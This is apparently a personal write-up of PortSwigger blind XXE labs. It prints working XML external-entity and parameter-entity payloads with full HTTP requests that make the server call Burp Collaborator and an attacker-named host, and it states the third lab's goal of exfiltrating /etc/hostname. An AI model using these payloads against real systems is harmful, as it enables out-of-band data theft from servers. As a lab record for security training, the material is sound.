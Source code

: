 ```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://cfvkyb57baq4ci1m5es05o37byho5d.oastify.com"> ]>

```
**request**:

    POST /product/stock HTTP/1.1

    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE dc [ <!ENTITY shazam SYSTEM "http://cfvkyb57baq4ci1m5es05o37byho5d.oastify.com"> ]>
    <stockCheck><productId>&shazam;</productId>

# Lab solved

materials:
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>


# ***[2. Lab: Blind XXE with out-of-band interaction via XML parameter entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)***


 This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

colaborator:
    2loa41bxh0wui87cb4yqbe9xhonfb4.oastify.com

payload:
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://2loa41bxh0wui87cb4yqbe9xhonfb4.oastify.com"> %xxe; ]>

**request**:
    POST /product/stock HTTP/1.1

    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://2loa41bxh0wui87cb4yqbe9xhonfb4.oastify.com"> %xxe; ]>
    <stockCheck><productId>4</productId>

# Lab solved

# ***[3. Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)***

 This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file. 
